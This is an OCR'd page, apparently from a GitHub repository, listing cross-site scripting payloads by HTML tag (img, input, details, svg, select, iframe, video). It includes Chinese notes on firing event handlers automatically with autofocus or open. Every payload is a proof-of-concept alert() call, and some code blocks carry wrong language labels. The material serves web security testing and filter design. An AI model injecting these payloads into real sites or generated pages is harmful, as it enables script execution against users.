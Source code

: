   `<img>`

```xml
<img src=1 onerror=alert("xss");>
```

 `<input>`

```lua
<input onfocus="alert('xss');">
```

```lua
竞争焦点，从而触发onblur事件
<input onblur=alert("xss") autofocus><input autofocus>
```

```lua
通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<input onfocus="alert('xss');" autofocus>
```

 `<details>`

```xml
<details ontoggle="alert('xss');">
```

```kotlin
使用open属性触发ontoggle事件，无需用户去触发
<details open ontoggle="alert('xss');">
```

 `<svg>`

```xml
<svg onload=alert("xss");>
```

 `<select>`

```xml
<select onfocus=alert(1)></select>
```

```xml
通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<select onfocus=alert(1) autofocus>
```

 `<iframe>`

```xml
<iframe onload=alert("xss");></iframe>
```

`<video>`

```xml
<video><source onerror="alert(1)">
```

`<audio>`
